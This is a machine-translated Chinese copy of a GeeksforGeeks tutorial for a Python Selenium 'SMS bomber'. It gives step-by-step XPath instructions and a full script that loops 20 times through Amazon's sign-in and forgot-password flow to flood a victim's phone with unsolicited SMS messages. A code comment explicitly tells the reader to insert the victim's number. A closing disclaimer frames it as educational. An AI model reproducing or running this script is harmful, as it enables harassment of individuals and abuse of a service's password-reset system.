





# 使用 Python 的硒基微型项目

> 原文:[https://www . geesforgeks . org/selenium-base-mini-project-use-python/](https://www.geeksforgeeks.org/selenium-base-mini-project-using-python/)

**<u>项目描述:-</u>** 在这里，我们要学习一个简单的短信炸弹人招数(为了好玩和教育的目的)。Selenium 是一个免费工具，可以在不同的浏览器上自动试用。在本教程中，我们将学习如何为给定的各种频率和间隔机械地发送一系列未经请求的邮件短信。

**要求:**

您需要安装 chromedriver 并设置路径。[点击这里](https://sites.google.com/a/chromium.org/chromedriver/downloads)下载，更多信息请关注[这个链接](https://www.geeksforgeeks.org/how-to-install-selenium-in-python/)。

**<u>下面是步骤:</u>**

1.  首先使用这个[链接](https://www.amazon.in/ap/signin?openid.pape.max_auth_age=0&openid.return_to=https%3A%2F%2Fwww.amazon.in%2Fgp%2Fcss%2Fhomepage.html%3Ffrom%3Dhz%26ref_%3Dnav_ya_signin&openid.identity=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.assoc_handle=inflex&openid.mode=checkid_setup&openid.claimed_id=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.ns=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0&)去亚马逊网站。
2.  然后通过紧急 ctrl + shift + i 或进入浏览器设置并手动点击调查细节来点击调查元素。
3.  然后导航到填充朋友手机号码的框，然后复制 x_path。
4.  然后导航继续按钮，然后复制 x_path。
5.  然后导航忘记密码，然后复制 x_path。
6.  然后再次重复步骤 3。
7.  然后再次重复步骤 4。

**给出一些截图，按照这个指令一步一步来:**

第一步-



第二步-


第三步-



第四步-



第五步-



第六步-



现在，运行脚本的方式放入合适的 x_path，并自动发送垃圾邮件短信为您朋友的手机号码。

**注:**本教程仅供教育动机使用，请不要用它来打扰任何人或任何不道德的方式。

下面是实现:

```py
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time
for i in range(20):
    # create instance of Chrome webdriver
    driver=webdriver.Chrome() 
    driver.get("https://www.amazon.in/ap/signin?openid.pape.max_auth_age=0&openid.return_to=https%3A%2F%2Fwww.amazon.in%2Fgp%2Fcss%2Fhomepage.html%3Ffrom%3Dhz%26ref_%3Dnav_signin&openid.identity=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.assoc_handle=inflex&openid.mode=checkid_setup&openid.claimed_id=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.ns=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0&")

    # find the element where we have to  
    # enter the xpath
    # target mobile number, change it to victim's number and 
    # also ensure that it's registered on flipkart

    driver.find_element_by_xpath('//*[@id="ap_email"]').send_keys('xxxx6126')
    # find the element continue 
    # request using xpath 
    # clicking on that element 

    driver.find_element_by_xpath('//*[@id="continue"]').click()
    # find the element to send a forgot password 
    # request using xpath 

    driver.find_element_by_xpath('//*[@id="auth-fpp-link-bottom"]').click()
    driver.find_element_by_xpath('//*[@id="continue"]').click()

    # set the interval to send each sms
    time.sleep(4)

    # Close the browser
    driver.close()
```